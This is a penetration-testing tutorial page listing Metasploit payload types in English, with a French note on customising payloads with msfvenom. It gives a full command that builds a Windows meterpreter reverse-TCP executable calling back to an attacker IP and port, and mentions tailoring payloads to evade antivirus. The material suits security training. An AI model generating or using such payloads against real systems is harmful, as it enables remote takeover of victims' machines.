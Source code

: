 ## <mark style="color:red;">Payload Types</mark>

<table data-header-hidden data-full-width="true"><thead><tr><th></th><th></th></tr></thead><tbody><tr><td><strong>Payload</strong></td><td><strong>Description</strong></td></tr><tr><td><code>generic/custom</code></td><td>Generic listener, multi-use</td></tr><tr><td><code>generic/shell_bind_tcp</code></td><td>Generic listener, multi-use, normal shell, TCP connection binding</td></tr><tr><td><code>generic/shell_reverse_tcp</code></td><td>Generic listener, multi-use, normal shell, reverse TCP connection</td></tr><tr><td><code>windows/x64/exec</code></td><td>Executes an arbitrary command (Windows x64)</td></tr><tr><td><code>windows/x64/loadlibrary</code></td><td>Loads an arbitrary x64 library path</td></tr><tr><td><code>windows/x64/messagebox</code></td><td>Spawns a dialog via MessageBox using a customizable title, text &#x26; icon</td></tr><tr><td><code>windows/x64/shell_reverse_tcp</code></td><td>Normal shell, single payload, reverse TCP connection</td></tr><tr><td><code>windows/x64/shell/reverse_tcp</code></td><td>Normal shell, stager + stage, reverse TCP connection</td></tr><tr><td><code>windows/x64/shell/bind_ipv6_tcp</code></td><td>Normal shell, stager + stage, IPv6 Bind TCP stager</td></tr><tr><td><code>windows/x64/meterpreter/$</code></td><td>Meterpreter payload + varieties above</td></tr><tr><td><code>windows/x64/powershell/$</code></td><td>Interactive PowerShell sessions + varieties above</td></tr><tr><td><code>windows/x64/vncinject/$</code></td><td>VNC Server (Reflective Injection) + varieties above</td></tr></tbody></table>

Other critical payloads that are heavily used by penetration testers during security assessments are Empire and Cobalt Strike payloads.&#x20;

{% hint style="info" %}
**"personnaliser nos payloads"** signifie que l’on peut créer des charges utiles (payloads) adaptées aux besoins spécifiques de l'attaque ou de la cible. Voici ce que cela implique et comment cela fonctionne avec _msfvenom_ :

1. **Utilisation de msfvenom :**\
   &#xNAN;_&#x6D;sfvenom_ est un outil de Metasploit qui permet de créer des payloads personnalisés. Avec _msfvenom_, vous pouvez spécifier les options exactes du payload :
   * **le type de payload** (ex. : _reverse TCP_, _bind shell_, _Meterpreter_, etc.),
   * **le format** du fichier généré (ex. : EXE pour Windows, ELF pour Linux),
   * **l'architecture** (32-bit ou 64-bit) et
   * d'autres options comme le port, l’adresse IP de l'attaquant, et plus encore.
2. **Pourquoi personnaliser ?**\
   La personnalisation des payloads est utile pour :
   * S'adapter aux configurations spécifiques de la cible (par exemple, si elle est sous Windows 7 x64, choisir un payload compatible),
   * Éviter la détection par les logiciels antivirus (en modifiant les paramètres ou en utilisant des méthodes d'obfuscation),
   * Répondre aux besoins de l'attaque (par exemple, utiliser un _Meterpreter_ pour avoir plus de fonctionnalités de contrôle, au lieu d’un simple shell).
3.  **Exemple de personnalisation avec msfvenom :**\
    Supposons que l’on veuille un payload _Meterpreter_ qui se connecte en _reverse TCP_ sur une machine attaquante avec une IP `192.168.1.10` et un port `4444`. On pourrait générer ce payload avec cette commande _msfvenom_ :

    {% code overflow="wrap" fullWidth="true" %}
    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f exe -o payload.exe
    ```
    {% endcode %}

    * Ici, `-p` spécifie le type de payload,
    * `LHOST` et `LPORT` définissent l’adresse IP et le port de l’attaquant,
    * `-f` spécifie le format (ici, un fichier exécutable pour Windows),
    * `-o` permet de nommer le fichier final.
{% endhint %}


